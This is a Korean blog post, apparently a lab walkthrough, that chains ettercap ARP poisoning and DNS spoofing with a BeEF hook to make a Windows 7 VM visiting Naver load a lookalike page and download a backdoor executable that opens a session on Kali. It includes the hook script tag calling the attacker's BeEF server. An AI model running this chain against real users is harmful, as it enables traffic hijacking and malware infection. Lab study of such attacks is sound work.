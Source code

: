 ---
layout: post
title: DNS Spoofing & 악성코드 배포
description: "DNS_Spoofing"
modified: 2017-07-26
tags: [penetration_testing,Metasploit,DNS_Spoofing,Backdoor]
categories: [penetration testing]
image:
    feature:
    credit:
    creditlink:
author:
    name: "박준영"
    bio: 아아 BOB되고싶다
    email: pjya0321@naver.com
    github: jy31241
    site: https://www.instagram.com/jypark_321/
---

크게 두 단계로 나누면  
1.내장툴 ettercap 을 사용해서 DNS스푸핑 공격을 한다.  
2.beef를 사용해서 백도어가 다운되게 리다이렉션 한다.  

![1]({{ site.url }}/assets/postimage/DNS1.png)

etter.dns 파일을 위와같이 수정해준다.  

![2]({{ site.url }}/assets/postimage/DNS2.png)

아파치서버를 실행시킨다.  

![3]({{ site.url }}/assets/postimage/DNS3.png)

칼리리눅스 내장툴인 ettercap 을 실행시킨다.  

1. eth0을 잡고 호스트를 스캔한다.  
2. 게이트웨이를 타겟1에/ 공격대상을 타겟2로 설정해준다.  
3. ARP 포지셔닝에서 Sniff remote connection을 체크한다.  
4. 플러그인에서 dns_spoof 를 설정한다.  

![4]({{ site.url }}/assets/postimage/DNS4.png)

공격대상인 윈7 가상환경에서 네이버에 접속하면 미리 만들어둔  
/var/www/html 경로의 index.html 의 내용이 연결된다.  

![5]({{ site.url }}/assets/postimage/DNS5.png)

Beef 서버를 실행시키고. Hook URL을 위에 연결된 index.html에 넣어준다.  

script src="http://192.168.254.129:3000/hook.js"type="text/javascript"  

![6]({{ site.url }}/assets/postimage/DNS6.png)

/var/www/html 경로에 악성백도어를 저장하고,  
UI패널을 열어서 (id/pw = beef/beef) 로그인을 한 뒤,리다이렉션 주소에 악성백도어 파일명.확장자명 을 입력한다.  
그리고 적용시킨다.  

![7]({{ site.url }}/assets/postimage/DNS7.png)

윈도우7 화면에는 kangol.exe 파일이 다운로드가 되었다.  
(중간에 네이버처럼 보이도록 연결될 html을 수정했다)  

![8]({{ site.url }}/assets/postimage/DNS8.png)


윈도우7에서 다운받은 백도어를 실행시키면 칼리에서 세션이 열린것을 확인 할 수 있다.  



